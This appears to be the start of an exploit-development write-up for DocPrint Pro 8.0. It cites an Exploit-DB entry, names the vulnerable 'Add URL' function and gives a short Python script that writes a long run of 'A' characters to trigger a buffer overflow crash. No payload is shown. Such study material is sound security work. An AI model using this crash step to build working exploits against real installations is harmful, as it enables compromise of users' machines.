 # DocPrint Pro 8.0

Downloaded from: https://www.exploit-db.com/exploits/49100: https://www.exploit-db.com/apps/560e231d212fdaef8e52471f94a5f014-docprint_pro_setup.exe![immagine](https://user-images.githubusercontent.com/59916156/194383567-66a4b359-e467-4215-8189-874d4a4ce3cc.png)

Vulnerable function: File -> Add URL

## Initial Crash
```py
#!/usr/bin/python 

file = "file.txt"
f = open(file , "w")

CRASH_LEN = 10000  # change me

junk = "A" * CRASH_LEN
f.write(junk)
f.close()
```
